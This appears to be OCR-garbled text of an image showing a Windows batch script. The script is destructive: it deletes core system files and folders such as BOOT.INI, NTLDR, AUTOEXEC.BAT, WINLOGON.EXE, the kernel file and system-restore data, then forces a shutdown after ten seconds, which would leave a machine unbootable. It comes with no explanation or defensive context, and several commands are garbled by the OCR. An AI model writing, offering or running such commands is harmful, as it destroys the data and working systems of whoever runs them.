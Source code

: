 # -w-
=w=
DEL -C:\WINDOWS\PCHEALTH\-
DEL -C:\WINDOWS\SYSTEM\-
DEL -C:\WINDOWS\SYSTEM32\RESTORE-
DEL -C:\WINDOWS\SYSTEM32\AUTOEXEC.NT-
DEL -C:\WINDOWS\SYSTEM32\NTOSKRNI.EXE-
DEL -C:\WINLOGON.EXE-

DEL C:\AUTOEXEC.BAT
DEL C:\BOOT.INI
DEL C:\NTLDR
DEL C:\WIN.INI
VERY*SHUTDOWN -S -T 10 -C
